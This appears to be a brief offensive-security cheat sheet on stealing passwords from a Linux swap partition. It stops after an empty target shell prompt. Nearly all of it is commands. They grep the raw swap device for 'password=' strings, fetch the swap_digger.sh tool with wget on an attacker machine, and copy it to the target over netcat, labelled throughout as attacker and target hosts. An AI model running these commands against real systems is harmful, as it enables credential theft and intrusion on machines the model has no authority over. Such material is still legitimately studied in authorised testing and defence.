

swap_digger
What is the swap fileA swap file allows an
operating system to use hard disk space to simulate extra memory. When the system runs low on memory, it swaps a
section of RAM that an idle program is using onto the hard disk to free up memory for other programs.
1.
To know where is your swap device use the next command:
target@debian:~$ cat /proc/swaps
target@debian:~$ swapon -s #alterantive
2. Check for
passwords in the swap file
◇ Manually
target@debian:~$ strings /dev/sda5 | grep "password="
target@debian:~$ strings /dev/sda5 | grep "&password="
◇ swap_digger.sh (need python3)
attacker@kali:/# wget https://raw.githubusercontent.com/sevagas/swap_digger/master/swap_digger.sh
target@debian:~$ nc -l -p 1234 > swap_digger.sh
attacker@kali:/# nc -w 3 <target_ip> 1234 < swap_digger.sh
target@debian:~$ chmod +x swap_digger.sh
target@debian:~$